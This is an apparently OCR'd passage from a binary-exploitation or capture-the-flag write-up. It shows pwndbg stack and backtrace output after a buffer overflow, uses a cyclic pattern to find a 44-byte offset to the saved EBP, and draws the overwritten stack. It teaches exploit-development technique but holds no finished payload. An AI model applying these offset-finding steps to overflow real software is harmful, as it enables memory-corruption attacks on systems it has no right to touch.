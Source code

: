 ```
   0xf7fc454e                           nop
   0xf7fc454f                           nop
   0xf7fc4550                           nop
   0xf7fc4551                           lea    esi, [esi]
   0xf7fc4558                           lea    esi, [esi]
   0xf7fc455f                           nop
─────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffd160 —▸ 0xffffd458 —▸ 0xffffd4e8 ◂— 'laaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
01:0004│-2f4 0xffffd164 ◂— 6
02:0008│-2f0 0xffffd168 ◂— 0xeb8d9
03:000c│-2ec 0xffffd16c —▸ 0xf7e05aa7 (__pthread_kill_implementation+295) ◂— mov ebp, eax
04:0010│-2e8 0xffffd170 —▸ 0xf7ffd608 (_rtld_global+1512) —▸ 0xf7fc6000 ◂— 0x464c457f
05:0014│-2e4 0xffffd174 ◂— 0
06:0018│-2e0 0xffffd178 —▸ 0xf7ffd000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x36f2c
07:001c│-2dc 0xffffd17c ◂— 6
───────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0 0xf7fc4549 __kernel_vsyscall+9
   1 0xf7e05aa7 __pthread_kill_implementation+295
   2 0xf7e05b2f pthread_kill+31
   3 0xf7db4685 raise+37
   4 0xf7d9d3ac abort+238
   5 0xf7df83fc __libc_message+588
   6 0xf7eb0a3c __fortify_fail+44
   7 0xf7eb0a0f None
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

If we observe teh registers, we can see that out of iyr cyclic pattern the string `laaa` ended up overwriting the value pointed to by `$ebp`, which is the stored `$ebp`.
Let's calculate the offset of `laaa`.

```
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

## Stack

```
<==: Value is stored at the address
<--: Points to the address

                       ╎  .. .. .. ..  ╎
                       ┌───────────────┐   
    esp --> buffer ==> │  61 61 61 61  │
                       │  62 61 61 61  │ 
                       │  63 61 61 61  │
                       │  64 61 61 61  │
                       │  65 61 61 61  │
                       │  66 61 61 61  │
                       │  67 61 61 61  │
                       │  68 61 61 61  │
                       │  69 61 61 61  │
                       │  6A 61 61 61  │
                       │  6B 61 61 61  │
                       ├╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌┤
```